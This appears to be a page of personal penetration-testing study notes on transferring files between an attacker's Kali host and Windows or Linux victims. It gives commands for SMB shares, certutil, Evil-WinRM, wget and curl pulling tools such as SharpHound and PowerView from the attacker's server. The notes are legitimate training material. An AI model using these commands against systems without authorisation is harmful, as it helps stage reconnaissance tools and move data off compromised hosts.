 ```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb .
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}
